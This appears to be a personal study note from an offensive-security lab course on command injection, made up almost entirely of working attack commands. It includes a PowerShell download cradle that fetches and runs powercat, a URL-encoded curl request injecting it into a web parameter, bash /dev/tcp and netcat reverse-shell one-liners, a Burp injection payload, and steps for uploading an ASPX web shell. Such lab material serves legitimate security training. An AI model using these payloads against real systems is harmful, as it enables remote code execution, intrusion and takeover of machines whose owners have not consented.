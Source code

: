 ```yaml
---
IP_KALI: 192.168.45.228
---
```

Snippet to display if command is being executed by CMD or PWSH:
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Serve Powercat on HTTP server and catch reverse shell:
```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```
```
python3 -m http.server 80
```
```
nc -nvlp 4444
```

With our web server serving **powercat.ps1** and Netcat listener in place, we can now use **curl** in the first terminal to inject the following command. It consists of two parts delimited by a semicolon. The first part uses a PowerShell download cradle to load the Powercat function contained in the **powercat.ps1** script from our web server. The second command uses the _powercat_ function to create the reverse shell with the following parameters: **-c** to specify where to connect, **-p** for the port, and **-e** for executing a program.
- IEX (New-Object System.Net.Webclient).DownloadString("http://<span id="IP_KALI"/>192.168.45.228<span type="end"/>/powercat.ps1");powercat -c <span id="IP_KALI"/>192.168.45.228<span type="end"/> -p 4444 -e powershell 

curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.228%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.228%20-p%204444%20-e%20powershell' http://192.168.132.189:8000/archive

- Command injection payload list: https://github.com/payloadbox/command-injection-payload-list
- command injection for popen function:
	- test"&&[COMMAND]"

# Exercises and Capstone:
bash -i >& /dev/tcp/192.168.181.16/4444 0>&1
nc -e /bin/nc 192.168.45.228 4444
## Capstone 3
- The third field is vulnerable
- In burp substitute the third parameter with below:
	```
	test%22%26%26bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.249/443+0>%261'%22
	```

## Capstone 4
- uploaded /usr/share/webshells/aspx/cmdasp.aspx on port 8000
- interacted with shell over port 80
- Executed PS encoded reverse shell
- NOTE: and uploaded file might need to be interected with on a different port than it was uploaded on